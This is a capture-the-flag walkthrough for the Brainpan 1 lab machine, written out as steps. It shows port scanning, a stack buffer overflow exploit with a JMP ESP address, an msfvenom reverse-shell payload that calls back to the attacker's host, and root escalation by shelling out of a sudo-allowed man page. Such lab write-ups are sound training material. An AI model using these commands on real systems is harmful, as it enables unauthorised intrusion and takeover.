





# Brainpan 1

Brainpan 1 is a machine vulnerable to a buffer overflow vulnerability, let's begin!

### Information

First things first, let us scan the target using nmap.

```
nmap <ip> -p-
```

> Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-25 17:42 EDT
> Nmap scan report for 10.10.47.121
> Host is up (0.049s latency).
> Not shown: 65533 closed tcp ports (conn-refused)
> PORT      STATE SERVICE
> 9999/tcp  open  abyss
> 10000/tcp open  snet-sensor-mgmt
>
> Nmap done: 1 IP address (1 host up) scanned in 19.66 seconds

We can by the output that there are two ports open:

- The 9999 Abyss service port which gives us a hint from a previous machine that is the port where we will conduct our BoF attack.
- The 10000 port. 

```
nmap <ip> -p 9999,10000 -A
```

> 9999/tcp  open  abyss?
> | fingerprint-strings: 
> |   NULL: 
> |     _| _| 
> |     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
> |     _|_| _| _| _| _| _| _| _| _| _| _| _|
> |     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
> |     [________________________ WELCOME TO BRAINPAN _________________________]
> |_    ENTER THE PASSWORD
> 10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)

This agressive scan showcases that the service that is listening on port 9999 is the Brainpan application which requests a password to the user.


Finally, the 10000 port is an HTTP port hosting a web service.


### Website

We can use the browser to check for the web service, which is a static web page with safe coding tips.


If we run gobuster on this endpoint we can see that a **/bin** directory exists, which lets us download the brainpan.exe executable.

```
gobuster dir -u <http://ip:port> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10
```


Let's continue by launching our Windows VM with Immunity Debugger.


### Exploiting Buffer Overflow

I'm going to use my [Hack-the-Stack](https://github.com/franlupo/Hack-the-Stack) scripts to help me exploit this Buffer Overflow Vulnerability. I had to make some adjustments to my original set of scripts so that they would work for this scenario. 

#### Fuzzing/Manual Crash

After making some adjustments to the fuzzing script we get a crash at 600 bytes of data:



Great, let's expand our buffer to 1000 bytes (in order to have space for our shellcode) and see if we can get the same result.


Additionally in both scenarios, we can see that the call stack including the EIP register are filled with 41414141 (AAAA) which was the payload we sent.



#### EIP Offset

Next I used the EIP offset script to know the offset to the return address location. With a payload of 1000 bytes the EIP register had a value of:

Hence, the EIP offset is 524 bytes.




#### EIP Control

Next, we can use the EIP Control script to make sure we have control over the return address. We can validate this since we were able to purposely fill the EIP register with BBBB.


#### Finding Bad Characters

The next step is to find bad characters using the respective script. After inspecting the call stack all characters we can see that other than \x00 there are no bad characters in the stack.


#### JMP Pointer

Using the mona command below I was able to find several interesting addresses we could use to JMP to the ESP.

```
!mona jmp -r esp -cpb "\x00"
```


```
python 06_jmp_pointer.py <ip> 9999 524 1000 0x311712f3
```


After putting a breakpoint when the JMP ESP action is executed we can see that the EIP register is filled with the JMP ESP memoty address that after being executed puts the ESP (stack point) in the 0028F930 address which is the top of the stack. This is the desired outcome since we can now fill the stack with nop sleds which converge in our reverse shell.

Great! All that is left to do is upload the payload.

#### Generate Shellcode 

We can use the following command to generate the shellcode and copy it to our nop sled script.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v shellcode
```

> Not the IP we were using to test the script, but the VPN IP address of our machine

After this I was trying to launch a shell using the meterpreter `shell` command but could not. What I found weird was that despite using the windows payload this was a linux machine because of the filesystem.

Hence, I changed my payload to **linux/x86/shell_reverse_tcp** and boom! 


### Privilege Escalation

After this I used **sudo -l** to see if there were any sudo commands the **puck** user was able to run without providing a password.

Luckily there was an interesting command we could run. 

> I recommend upgrading your shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`

We can see that there is a command we can run `/home/anansi/bin/anansi_util`



After running the command:

```
sudo /home/anansi/bin/anansi_util
```

We can see that there are 3 tools we can use:

- network: ifconfig
- proclist
- manual: launches the man of a specified command

Luckily, the manual command can be used to escalated privileges. According to GTFOBins which is an excellent resource we can easily launch a new shell usgin `!/bin/sh` inside a manual page.



Hence, we can just do:

```
sudo /home/anansi/bin/anansi_util manual man
!/bin/sh
```

Congratulations, you have compromised the machine!


